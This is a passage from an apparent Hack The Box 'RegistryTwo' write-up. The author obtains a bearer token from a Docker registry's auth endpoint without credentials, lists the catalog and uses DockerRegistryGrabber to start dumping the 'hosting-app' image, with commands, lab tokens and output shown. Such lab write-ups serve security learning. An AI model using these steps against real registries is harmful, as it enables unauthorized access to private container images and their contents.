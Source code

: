 Yes, as expected, we couldn't authenticate, and I said the reason why the authentication request failed.

But now we fix that, now we request a new token for the specified scope `service=Docker%20registry&scope=registry:catalog:*`, and now we try again.

```bash
┌──(ar0x㉿kali)-[~/Desktop/HTB/Machines/RegistryTwo]
└─$ curl -s 'https://webhosting.htb:5001/auth?service=Docker%20registry&scope=registry:catalog:*' -k | jq 
{
  "access_token": "eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiIsImtpZCI6IlFYNjY6MkUyQTpZT0xPOjdQQTM6UEdRSDpHUVVCOjVTQk06UlhSMjpUSkM0OjVMNFg6TVVZSjpGSEVWIn0.eyJpc3MiOiJBY21lIGF1dGggc2VydmVyIiwic3ViIjoiIiwiYXVkIjoiRG9ja2VyIHJlZ2lzdHJ5IiwiZXhwIjoxNzAxNDU3NjY4LCJuYmYiOjE3MDE0NTY3NTgsImlhdCI6MTcwMTQ1Njc2OCwianRpIjoiNjI4ODEwMjAzNDYyNjE0MzE5MiIsImFjY2VzcyI6W3sidHlwZSI6InJlZ2lzdHJ5IiwibmFtZSI6ImNhdGFsb2ciLCJhY3Rpb25zIjpbIioiXX1dfQ.iE6oslCXNYTqbjaiYWYtBI4mItDMqTd7dtWN32-rhb7_syVLReuSIUek3fzqXG7s8j6qArOMLnCBvDsz7rqGwETzv1kHCq1th_sXXBtqFneinwawTdnNNdIIzBBuYz_35YYno-3NhtAmfoiZ5cGKp-0SV4VbUxYeJJaRY1eJyF80W8Iew4oYhGSwKC5QmcJYmpNeOg2fnlSU_OITjK0jFdsUFBto8gObWn2TnMMVWigMtdYXFACiLPdLWtCeJ9La1on9Ruyhntmk0k2HOnmxmi59BbpJyNflRwFWpTSOLWQa3pC0w9hT_mlVY6UgzqgObt5r-JwpXhm_B5Gbx6QKhg",
  "token": "eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiIsImtpZCI6IlFYNjY6MkUyQTpZT0xPOjdQQTM6UEdRSDpHUVVCOjVTQk06UlhSMjpUSkM0OjVMNFg6TVVZSjpGSEVWIn0.eyJpc3MiOiJBY21lIGF1dGggc2VydmVyIiwic3ViIjoiIiwiYXVkIjoiRG9ja2VyIHJlZ2lzdHJ5IiwiZXhwIjoxNzAxNDU3NjY4LCJuYmYiOjE3MDE0NTY3NTgsImlhdCI6MTcwMTQ1Njc2OCwianRpIjoiNjI4ODEwMjAzNDYyNjE0MzE5MiIsImFjY2VzcyI6W3sidHlwZSI6InJlZ2lzdHJ5IiwibmFtZSI6ImNhdGFsb2ciLCJhY3Rpb25zIjpbIioiXX1dfQ.iE6oslCXNYTqbjaiYWYtBI4mItDMqTd7dtWN32-rhb7_syVLReuSIUek3fzqXG7s8j6qArOMLnCBvDsz7rqGwETzv1kHCq1th_sXXBtqFneinwawTdnNNdIIzBBuYz_35YYno-3NhtAmfoiZ5cGKp-0SV4VbUxYeJJaRY1eJyF80W8Iew4oYhGSwKC5QmcJYmpNeOg2fnlSU_OITjK0jFdsUFBto8gObWn2TnMMVWigMtdYXFACiLPdLWtCeJ9La1on9Ruyhntmk0k2HOnmxmi59BbpJyNflRwFWpTSOLWQa3pC0w9hT_mlVY6UgzqgObt5r-JwpXhm_B5Gbx6QKhg"
}
```

```bash
┌──(ar0x㉿kali)-[~/Desktop/HTB/Machines/RegistryTwo]
└─$ curl https://www.webhosting.htb:5000/v2/_catalog -k -H "Authorization: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiIsImtpZCI6IlFYNjY6MkUyQTpZT0xPOjdQQTM6UEdRSDpHUVVCOjVTQk06UlhSMjpUSkM0OjVMNFg6TVVZSjpGSEVWIn0.eyJpc3MiOiJBY21lIGF1dGggc2VydmVyIiwic3ViIjoiIiwiYXVkIjoiRG9ja2VyIHJlZ2lzdHJ5IiwiZXhwIjoxNzAxNDU3NjY4LCJuYmYiOjE3MDE0NTY3NTgsImlhdCI6MTcwMTQ1Njc2OCwianRpIjoiNjI4ODEwMjAzNDYyNjE0MzE5MiIsImFjY2VzcyI6W3sidHlwZSI6InJlZ2lzdHJ5IiwibmFtZSI6ImNhdGFsb2ciLCJhY3Rpb25zIjpbIioiXX1dfQ.iE6oslCXNYTqbjaiYWYtBI4mItDMqTd7dtWN32-rhb7_syVLReuSIUek3fzqXG7s8j6qArOMLnCBvDsz7rqGwETzv1kHCq1th_sXXBtqFneinwawTdnNNdIIzBBuYz_35YYno-3NhtAmfoiZ5cGKp-0SV4VbUxYeJJaRY1eJyF80W8Iew4oYhGSwKC5QmcJYmpNeOg2fnlSU_OITjK0jFdsUFBto8gObWn2TnMMVWigMtdYXFACiLPdLWtCeJ9La1on9Ruyhntmk0k2HOnmxmi59BbpJyNflRwFWpTSOLWQa3pC0w9hT_mlVY6UgzqgObt5r-JwpXhm_B5Gbx6QKhg" -k

{"repositories":["hosting-app"]}
```

Kaboom, we have the repo name, now we can dump this image from the docker registry.

There are a lot of tools out there that you can use, and you can find some examples on [HackTricks](https://book.hacktricks.xyz/network-services-pentesting/5000-pentesting-docker-registry).

So I will use [DockerRegistryGrabber](https://github.com/Syzik/DockerRegistryGrabber) for now.

```bash
┌──(ar0x㉿kali)-[~/…/HTB/Machines/RegistryTwo/DockerRegistryGrabber]
└─$ python3 drg.py -A 'eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiIsImtpZCI6IlFYNjY6MkUyQTpZT0xPOjdQQTM6UEdRSDpHUVVCOjVTQk06UlhSMjpUSkM0OjVMNFg6TVVZSjpGSEVWIn0.eyJpc3MiOiJBY21lIGF1dGggc2VydmVyIiwic3ViIjoiIiwiYXVkIjoiRG9ja2VyIHJlZ2lzdHJ5IiwiZXhwIjoxNzAxNDU4NzU1LCJuYmYiOjE3MDE0NTc4NDUsImlhdCI6MTcwMTQ1Nzg1NSwianRpIjoiODg2MTczMjM0MTkzNTE0Nzc4OSIsImFjY2VzcyI6W3sidHlwZSI6InJlZ2lzdHJ5IiwibmFtZSI6ImNhdGFsb2ciLCJhY3Rpb25zIjpbIioiXX1dfQ.Vk1nXPHHAXmkNGzCpbIG-a5ui-jx52O-oTF6TRgP4hGp14oWBfvN0Dwagxn2IXLiXk9jhoZGclbbutNyvJQn0pV9hWCLrT3PCD6iyHiboyMwohUC_orImG1HghUhqxU-clpfthT-DitUMvNcL0g7aye1YnshR1e9a-DEZIEkOrlLsQFyzik3s4c3IPiHyZIcO49TPlJ_B27Wyuq85znCx-q8MoSEAlbxcv_GWD1R9iY756SICD7w0S9rdw6880L1UtzcPvKlQSIPqgasqptXss4NReDqJc9Ey4ZfufIqaMQV7LyaczPYCxCMuSMbzon0ID6Se2lF_eUS62uPQtE6oQ' --list https://www.webhosting.htb
[+] hosting-app
```
